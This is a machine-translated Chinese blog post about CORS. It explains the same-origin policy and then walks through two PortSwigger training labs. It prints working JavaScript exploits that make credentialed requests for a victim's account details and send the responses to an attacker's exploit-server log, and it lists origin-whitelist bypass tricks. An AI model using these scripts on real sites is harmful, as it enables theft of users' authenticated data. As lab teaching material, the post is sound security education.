










# 跨源资源共享(CORS)解释和开发☠

> 原文：<https://infosecwriteups.com/cross-origin-resource-sharing-cors-explanation-exploitation-b4179235728b?source=collection_archive---------0----------------------->

## 嗨！我的名字是 Hashar Mujahid，今天我们将谈论跨起源资源共享(CORS)。


让我们从基础开始。我们走吧。

要了解 CORS，我们首先需要了解什么是 SOP(同源政策)。

## **什么是 SOP？**

同源策略是一种安全机制，它限制从一个源(域)加载的资源如何与另一个源(域)的资源交互。

它限制恶意网站从其他网站上用户的认证会话中请求数据。主要是拯救用户免受 CSRF 攻击。

**产地:**

理解什么是起源是非常重要的。来源由 URL 的协议、主机名和端口号定义。如果两个网站具有相同的协议、主机名和端口，它们将被归类为同源网站。如果其中一个属性是不同的，那么他们将不会是相同的网站。

> 草案
> 
> 主机名
> 
> 港口

通过 SOP 测试应该是一样的。

**举例:**

我们有下面给出的 2 个网站。

*   `http://test.com/testapp1/index.html`
*   `http://test.com/testapp2/index.html`

他们是不是同宗？这是因为如果你关注我们提到的所有三个属性，这两个网站是相同的。它们有相同的协议`http`，所以它们也有相同的端口，因为`http`默认使用端口 80。而且两个网站的主机名都是一样的`test.com`。主机名后面的目录和路径无关紧要，因为上面的检查足以测试 SOP。

现在我们对什么是 SOP 有了一些了解，我们应该看看什么是 CORS，为什么我们需要它。

## **什么是 CORS？**

正如我们所知，SOP 限制加载相同来源之外的资源，但如果我们真的需要加载一些重要的资源，这就是 CORS 的切入点，它允许对位于给定域之外的资源进行受控访问。它延伸并增加了同源政策的灵活性。但是，如果网站的 CORS 策略配置和实施不当，它也提供了跨域攻击的可能性。攻击者可以执行 CSRF 攻击来对用户造成损害。

## 我们为什么需要 CORS？

为了理解我们为什么需要 CORS，我们需要举个例子。让我们假设我们有两个网站 A 和 B。网站 A 需要从网站 B 加载一些资源(如图像或一些 js 文件)，但由于开发者实施的严格同源策略(SOP ),它会失败。使用 CORS(跨源资源共享)可以绕过这个问题。这有助于为我们的 SOP 政策增加一些灵活性，并允许我们从受信任的网站加载资源。

因为同源策略非常严格，所以人们提出了许多绕过它的技术。许多网站与子域名或第三方网站交互，需要完全的跨源访问。利用跨原产地资源共享，有管理地放宽同源政策是可能的(CORS)。

像 Access-Control-Allow-Origin response 这样的报头用于实现 cors。

## 什么是访问控制允许起源响应头？

Access-Control-Allow-Origin 标头包含在一个网站对来自另一个网站的请求的响应中，它定义了请求的允许来源。如果 Access-Control-Allow-Origin 与请求网站的来源匹配，则 web 浏览器允许访问该响应。

**例如:**

假设一个原点为`normal-website.com`的网站引起如下跨域请求:

```
GET /data HTTP/1.1 
Host: robust-website.com 
Origin : [https://normal-website.com](https://normal-website.com)
```

`robust-website.com`上的服务器返回如下响应:

```
HTTP/1.1 200 OK ... 
Access-Control-Allow-Origin: [https://normal-website.com](https://normal-website.com)
```

浏览器将允许运行在`normal-website.com`上的代码访问响应，因为来源匹配。

`Access-Control-Allow-Origin`的规范允许多个原点，或者值`null`，或者通配符`*`。然而，没有一个浏览器支持多个来源，并且对通配符`*`的使用有限制。

现在，我们对 CORS 有了足够的了解，我们可以考虑由于错误配置的 CORS 实现而可能出现的漏洞。

# 服务器从客户端指定的原始标头生成的 ACAO 标头

一些应用程序需要允许访问许多域，保持一个白名单域的列表是一个很大的工作，任何错误都可能导致破坏功能。为了避免这种工作网站允许从任何其他领域的访问。

**例如:**

网站收到请求。

像这样:

```
GET /sensitive-victim-data HTTP/1.1 
Host: paypal.com
Origin: https://malicious-website.com 
Cookie: sessionid=...
```

PayPal 服务器的回应是:

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://malicious-website.com 
**Access-Control-Allow-Credentials: true ==> Allows cookie to be included** 
```

该回复指出，恶意网站已经并可以请求获取和请求我们的数据，并且还可以在请求时包含我们的 cookie。

这意味着任何网站都可以请求我们在易受攻击的 PayPal 服务器上的宝贵数据。

## 实验室:CORS 漏洞与基本起源反射。

这个网站有一个不安全的 CORS 配置，因为它信任所有的来源。

为了解决这个实验，编写一些 JavaScript，使用 CORS 来检索管理员的 API 密钥，并将代码上传到您的漏洞利用服务器。当您成功提交管理员的 API 密钥时，实验就完成了。

您可以使用以下凭证登录您自己的帐户:`wiener:peter`

进入实验室。



登录后，我们可以看到一个 API 密钥，我们需要获取管理员的 API 密钥来完成实验。



我们可以在 burp 中看到对`/account-details`的请求，该请求获取用户的数据。将此请求发送到中继器。



让我们测试一下错误配置的 CORS。在我们的请求中添加一个 ORIGIN 头，看看响应是否允许。



我们的网站被列入 ACAO 的标题。现在我们知道我们的网络是易受攻击的，但问题是我们如何通过它访问管理密钥。我们需要编写一个 javascript 代码并将其托管在我们的漏洞利用服务器上，以便在受害者访问它时包含对请求的响应。

```
<html>
<body>
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a08005b047893acc0ef1484004100a1.web-security-academy.net/accountDetails',true); 
req.withCredentials = true; req.send();  
function reqListener() {    
location='/log?key='+this.responseText; 
};
</script>
</body>
</html>
```

该脚本将向/accountDetails 发出请求，并将响应添加到我们的漏洞利用服务器日志中的链接。

将漏洞存储在我们的服务器上，然后将其发送给受害者，之后当我们检查访问日志时，我们可以看到管理员的信息被泄露。



这就是错误配置的 CORS 实现泄露个人信息的方式。



# 解析原始标头时出错:

一些网站允许访问白名单中的域名及其所有子域。这可能是一个安全风险，因为攻击者可能能够通过注册一个类似的子域来绕过此过滤器。

**例如:**

场景 A:

站点 A 允许所有域名以`inocent.com`结尾。攻击者可能会注册一个域名`hackerinocent.com`，并获得执行 CORS 的权限。

场景 B:

假设一个应用程序授权访问以`incocent.com`开头的所有域，攻击者可以使用`inocent.com.evil.com`绕过它，获得 CORS 访问权限。

# 列入白名单的空原始值:

Origin Header 也支持将`null`作为一个值，浏览器可能会在某些情况下发送一个空值，例如

> 来自序列化数据的请求。
> 
> 使用`file:`协议请求。
> 
> 沙盒跨来源请求。
> 
> 跨原点重定向。

开发人员可能会在应用程序的本地开发期间将 null 添加到 while 列出的域中，而忘记在生产中删除它。

这将带来安全风险，因为攻击者可能会发出请求:

```
GET /sensitive-victim-data 
Host: vulnerable-website.com 
Origin: null
```

服务器会用。

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: null 
Access-Control-Allow-Credentials: true
```

## [实验室:受信任的空起源的 CORS 漏洞](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

这个网站有一个不安全的 [CORS](https://portswigger.net/web-security/cors) 配置，因为它信任“空”来源。

为了解决这个实验，编写一些 JavaScript，使用 CORS 来检索管理员的 API 密钥，并将代码上传到您的漏洞利用服务器。当您成功提交管理员的 API 密钥时，实验就完成了。

您可以使用以下凭证登录您自己的帐户:`wiener:peter`

使用提供的凭据访问实验室并登录。



现在，通过向我们的请求添加一个 origin 报头并监视响应来测试 CORS 错误配置。



因为我们的域名不在白名单中。

我们可以尝试将原点值设置为 null，看看会得到什么样的响应。



看起来开发者忘记了从白名单中删除 null。

现在，我们需要编写一个脚本来利用这个漏洞获取受害者的数据。

```
<html>
<body>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','[https://0a73002703504f63c036079300b20068.web-security-academy.net/accountDetails',true](https://0a73002703504f63c036079300b20068.web-security-academy.net/accountDetails',true));
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='[https://exploit-0a0600c503a24f9ec0e6070d015300d2.exploit-server.net/log?key='+encodeURIComponent(this.responseText);](https://exploit-0a0600c503a24f9ec0e6070d015300d2.exploit-server.net/log?key='+encodeURIComponent(this.responseText);)
    };
</script>"></iframe>
</body>
</html>
```

iframe 将帮助我们用一个空的源发起请求，之后，响应将被添加到我们的日志中。如果我们点击查看我们的漏洞并在拦截器中密切监控我们的流量。



我们可以看到请求是使用空原点发出的。

我希望你喜欢这个博客。在接下来的博客中，我们将讨论更多利用 CORS 的方法，以及如何防止 CORS 漏洞。

如果你喜欢，可以考虑跟着我。

下次再见，直到那时。

快乐的黑客❤！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)，以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！